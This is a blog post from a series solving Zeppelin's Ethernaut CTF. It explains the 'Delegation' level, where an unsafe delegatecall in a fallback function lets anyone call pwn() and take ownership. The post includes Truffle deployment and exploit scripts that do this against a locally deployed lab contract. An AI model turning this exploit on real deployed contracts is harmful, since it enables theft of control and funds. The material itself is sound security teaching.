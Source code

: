 Title: Solving Zeppelin's Ethernaut CTF - Delegation
Date: 2018-08-05 16:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-delegation
Summary: Post #7 of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Delegation, we study how to exploit a trustful contract that uses a not-so-safe low-level call.

## Introduction
If you haven't realized by now, let me tell you something, Solidity's low-level calls are definitely not your best friends. I'm talking about `call`, `callcode` and `delegatecall`. They can be deceiving, as we've already seen in [Fallback](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/). That's the reason why many static analyzers will raise an alarm whenever any of them is found. I'm not saying you shouldn't use them - they exist for a reason - but, beware.

Now go take a look at the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:target="_blank",:rel="noopener"} and come back once you're done.

In a nutshell, we're are given an instance of the Delegation contract over which we should claim ownership. As you may have seen, the contract only has one function that we can interact with, which happens to be its fallback function. Quite a narrow scope there - so it all comes down to this line: `delegate.delegatecall(msg.data)`, the vuln must be there. Let's see what `delegatecall` does.

## In delegatecall we trust
Sadly, in this case.

First of all, `delegatecall` is just another type of message that smart contracts can send to each other - with some peculiarities, but a message at the end of the day. According to the [Solidity docs on delegatecall](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries):

> [...] is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

Yeap, chinese is easier, I know. Let's put this straight.

Imagine two happy friends: Alan and Bob. Alan is the laziest guy ever, he does not even bother to do anything himself, 'cause why do something when someone else can do it for you, right ? So whenever he needs to do the cleaning at home, he calls his super trustworthy BFF, Bob. Alan happens to be super trustful of Bob, I mean, like hell. So he not only let's Bob do the work, but also gives Bob all the keys to his house. All of them, even the safe-deposit box key. 

The thing is, Bob ain't no saint either. He gained Alan's **trust**, and now can do whatever he pleases with Alan's belongings. He can move around anything in Alan's house, even those things that were to be kept private.

Now imagine Alan and Bob are not humans, but smart contracts. We'll call them A and B for short. Whenever A calls delegatecall on B (B.delegatecall(...)) he's letting B proccess the whole call. B has now access to A's storage and can modify it freely. For instance, in the Delegation challenge, B (Delegate) could potentially change the owner of A (Delegation). How can we achieve that ?

## In delegate call we shouldn't have trust
Check Delegate's code. In particular, this function:

~~~solidity
function pwn() public {
        owner = msg.sender;
}
~~~

Whoever calls that `pwn` function, automatically becomes the owner of the contract. Now what if we called it through `delegatecall` ? As we read in the docs: `msg.sender` does not changes its original value, and the call would be executed **in the caller's context**. Which means that, to pass the challenge, we need to call Delegate's `pwn` function through the `delegatecall` in the Delegation contract. That way, the owner of Delegation would be changed to the sender who sent the initial call to Delegate.

Enough talk. Let's do it.

## Exploiting an unsafe delegatecall
Include both Delegate.sol and Delegation.sol in your `contracts` folder. Then write the deployment scripts as follows and run `npx truffle migrate`:

~~~javascript
let Delegate = artifacts.require('./Delegate.sol')
let Delegation = artifacts.require('./Delegation.sol')

module.exports = deployer => {
    // We first deploy Delegate to obtain its address
    deployer.deploy(Delegate, web3.eth.accounts[0]).then(() => {
        // Once Delegate is deployed, pass its address to the Delegation contract constructor
        return deployer.deploy(Delegation, Delegate.address)
    })
}
~~~

For the exploit, create a new file in your `exploits` folder called `delegation.exploit.js`. Set it up following the same structure we used for previous exploits.

~~~javascript
const DelegationContract = artifacts.require('Delegation')
const assert = require('assert')

async function execute(callback) {

    // Instance the Delegation contract
    let delegationContract = await DelegationContract.deployed()
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker address: ${attackerAccount}`)

    // Check who's the owner of the Delegation contract
    let owner = await delegationContract.owner.call()
    console.log(`Initial owner: ${owner}`)
    
    // Actual exploit will be here

    callback()
}
~~~

Next step: calling the fallback function of Delegation. In previous posts we saw that in order to execute a contract's fallback function code, all we need to do is send a transaction to the contract. However, this will be a special case.

All Ethereum transactions include a `data` field, in which we can include a payload we want to send to a contract. For instance, a contract's function signature and parameters that we wish to call. By inspecting Delegation's code, you can see that everything inside the `data` field is be passed to the Delegate contract and executed by it. Thus, we will call the `pwn` function, but first we'll need to encode it the Ethereum way.

To do so, we need to hash the prototype string of the function like functionName(type1,type2,...) with Keccak256, and then take only the first 4 bytes. That is why you will often see something like `bytes4(keccak256(...))` in Solidity code. Yet, we're writting Javascript here, not Solidity, and we can take advantage of `web3` utility functions.

The final part of the exploit looks like:

~~~javascript
await delegationContract.sendTransaction({
        from: attackerAccount,
        data: encodeFunctionSignature('pwn()')
})

// Check who's the owner of the Delegation contract
owner = await delegationContract.owner.call()
assert.equal(owner, attackerAccount)
console.log(`Final owner: ${owner}`)
~~~

And the `encondeFunctionSignature` function goes like this:

~~~javascript
function encodeFunctionSignature(functionName) {
    return web3.eth.abi.encodeFunctionSignature('pwn()')
}
~~~

You can check what that `web3` function is actually doing in here: [https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199](https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199){:rel="noopener"}


All set! You can now call `npx truffle exec exploits/delegation.exploit.js`, pwn the Delegation contract, and finally become its owner!

Find the full exploit code at [https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js){:rel="noopener"}.

That's it, another challenged solved. In the next post, we'll tackle [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b){:rel="noopener"} and, spoiler alert, learn how to press a hidden self-destruct button that all smart contracts have.
